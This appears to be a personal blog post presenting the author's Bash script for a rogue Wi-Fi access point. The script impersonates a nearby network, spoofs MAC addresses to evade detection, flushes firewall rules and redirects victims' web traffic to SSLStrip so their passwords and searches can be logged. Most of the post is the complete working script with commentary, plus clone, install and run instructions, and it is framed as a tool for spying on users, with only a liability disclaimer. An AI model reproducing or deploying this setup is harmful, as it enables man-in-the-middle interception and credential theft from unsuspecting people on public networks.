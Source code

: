 ```yaml
---
title: "Rogue AP"
description: "A Rogue AP or Rogue Access Point is a hostspot that simulates a network like if it was a router, but instead it replicates the signal of an existing one and performs sniffing and Man In The Middle on every user that connects to that AP."
date: 2019-11-24
lastmod: 2020-08-06T00:50:52+02:00
author: "Pablo Jesús González Rubio"
cover: "mitm.png"
coverAlt: "Man In The Middle"
toc: true
tags: [ "Projects" ]
---
```


## Introduction

A Rogue AP or Rogue Access Point is a hotspot that simulates a network like if it was a router, but instead it replicates the signal of an existing one and performs sniffing and Man In The Middle on every user that connects to that AP.

That means that if I'm connected to "Orange-Fibra", I can create an AP that has connectivity (so every user connected has internet) and lets me see all the traffic they are sending, like passwords, searches, etc. 😈

{{< img "mitm.png" "MITM" "border" >}}

I've made a Bash script to automatize the process, it's in [Github](https://github.com/n0nuser/RogueAP). 

Features:

- Use of two WiFi adapters:
  - <ADAPTER 1> that connects to original router and creates new AP.
  - <ADAPTER 2> that replicates the signal with the power of that adapter and antenna, and captures the traffic.
- MAC change (so it's more evasive).
- AP on HostAPd (which is faster than AirBase of Aircrack-ng suite).
- SSLStrip (that intercepts HTTPS and reads it).

### Explanation of code

This was the most difficult part for me to understand, how everything in an AP works together, so I'll try to explain the part of how to create the AP (the rest is for making things work better) so you may understand it!

However, if you don't understand something, feel free to contact me!

```bash
# This for loop changes the MAC of both adapters with 'macchanger'.
for i in $1 $2;do ifconfig $i down >/dev/null 2>&1; macchanger -r $i >/dev/null 2>&1; ifconfig $i up >/dev/null 2>&1; done

# This assigns the first adapter the range of the IPs from 10.0.0.1 to 10.0.0.254
ifconfig $1 10.0.0.1/24 up

# This creates a file with 'dnsmasq' config
# 'Interface' means the adapter which is going to create the AP
echo "interface=$1" > dnsmasq.conf
# This is the IP range for hosts
echo "dhcp-range=10.0.0.10,10.0.0.250,12h" >> dnsmasq.conf
# This is the Gateway of the router
echo "dhcp-option=3,10.0.0.1" >> dnsmasq.conf
# This is the where petitions are going to pass by to the DNS
echo "dhcp-option=6,10.0.0.1" >> dnsmasq.conf
# This are the DNS used (Google)
echo "server=8.8.8.8" >> dnsmasq.conf
# This logs all the queries made by hosts
echo "log-queries" >> dnsmasq.conf
# This logs how hosts are assigned an IP
echo "log-dhcp" >> dnsmasq.conf
# This runs the DHCP server
dnsmasq -C dnsmasq.conf

# FLUSHING FIREWALL TABLES
iptables --flush
# Sets traffic forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward
# Reloads the file so it applies the configuration
source /proc/sys/net/ipv4/ip_forward
# Accepts all the traffic
iptables -P FORWARD ACCEPT
# This redirects the traffic to the second adapter
iptables -t nat -A POSTROUTING -o $2 -j MASQUERADE
# This redirects the connections to port 10000 for SSLStrip sniffing
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000

# Creates 'hostapd' config file
# Like before, the adapter that creates the AP
echo "interface=$1" > hostapd.conf
# Driver of Adapter
echo "driver=nl80211" >> hostapd.conf
# Name of Rogue AP passed by argument
echo "ssid=$3" >> hostapd.conf
# Selects WiFi channel we are using
# Put one of the most common in your country
echo "channel=9" >> hostapd.conf
# Runs the Rogue AP
hostapd hostapd.conf &

# Variable to log the file with date
DATE=$(date +%Hh-%Mm-%Ss_%d-%m-%Y)
echo -e "Opening \e[1;5;33mSSLStrip\e[0m. You should also open \e[1;5;33mWireshark\e[0m\n\n"
# Starts sniffing traffic and logs it
sslstrip -l 10000 -a -w log_rogue_$DATE.log
```

### Installation & Usage

To download it:

```
git clone https://github.com/n0nuser/RogueAP.git
```

To install it:

```
cd RogueAP/
chmod +x rogueap
sudo ln -s $(pwd)/rogueap /usr/local/bin
```

Run:

```
rogueap <ADAPTER 1> <ADAPTER 2> <ESSID>
```

`<ADAPTER 1>` and `<ADAPTER 2>` are explained in Introduction, and `<ESSID>` is the name of the Rogue AP.

Then it will run and capture HTTPS traffic and log it.

I recommend to also run wireshark, so it captures __ALL__ traffic.

<div style="text-align:center"><img src="./img/rogueap.gif" /></div>

{{< img "movil_de_pepe.png" "Red Móvil de Pepe aparece en la lista de redes" "border" >}}

### Notes

When the program finishes it does a cleanup and restores original MAC’s.

I don’t take any responsibility for any harm or misuse of the script or the Rogue AP concept itself. :warning:

And… have fun! 🌚
